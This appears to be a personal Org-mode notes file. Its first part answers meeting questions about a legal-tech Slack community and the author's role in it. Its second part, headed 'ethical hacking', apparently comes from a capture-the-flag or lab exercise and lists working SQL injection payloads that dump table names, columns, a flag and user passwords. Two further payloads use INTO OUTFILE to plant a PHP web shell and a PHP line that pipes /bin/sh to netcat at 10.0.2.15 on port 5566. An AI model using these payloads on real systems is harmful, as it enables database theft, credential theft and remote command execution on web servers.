 #+AUTHOR: CALIN CAPITANU
#+TITLE: Quick Notes

* Hailey meeting 12/08/2020
** What do you think Hailey can achieve, do and use the Slack channel for - how does it differ from the custom made app?
Only through slack I think we can do at most the following:
+ Gather a medium sized community
+ Get 5-10% of that community to actively interact with eachother and be interested in our posts there
+ Organize LegalTech events
It is mostly different in terms of control over how users interact with the platform. I think that the initial target of this is to gather a 
community, thus for the short-term, there is nothing more that a dedicated app would offer, but needs might arise for specific implementations.
** What do you envision your role in relation to the Hailey Slack channel to be? What do you want to do in the Slack channel?
I would like to see myself as a moderator for the tech channel along with Leandro.
** How does your role change in the light of the pivot?
   It all depends on what are the next decisions, haha. If the decision is that we are building smaller tools to help the legal-tech community, then 
   I'd guess my role would still be as a developer, which would be great. Otherwise, I think my role would be more of a Newspaper Reporter to the
tech channel, maybe Moderator as above mentioned.
** What are the new roles and necessities you see emerging from the pivot?
Definetely crowd controllers and community builders. People that know how people work, if that makes sense. People that know how to 
keep people talking and engaged in conversation. We are trying basically to become a group of influencers, which we need reputation for,
thus people with such knowledge would be great (vloggers, bloggers).
** What new commitments or changes to your excisiting ones are you ready to make due to the pivot?
I would like to be involved as much as I was before, I think it is the right amount of work I can do at the moment, school starts in 2 weeks, or one 
which is scary, but I might be able to do more at times, possible less at other times (exams of course). But around 8 to 10 hours a week is usually something
I can do for 
* ethical hacking
** databases
%' UNION (SELECT 1,table_name,3,4  FROM information_schema.tables ) UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%
** columns
%' UNION (SELECT 1,column_name,3,4  FROM information_schema.columns WHERE TABLE_NAME = 'users') UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%
** flag
%' UNION (SELECT 1,flag,3,4  FROM flags) UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%
** passwords
%' UNION (SELECT usID, usPseudo, usPasse , usAvecPhoto  FROM users) UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%



%' union select 1, '<?php system($_GET["cmd"]); ?>',2,3 into outfile '/var/www/html/php/cmd.php' #

%' union select 1, '<?php system('/bin/sh | nc 10.0.2.15 5566'); ?>',2,3 into outfile '/var/www/html/php/cmd1.php' #
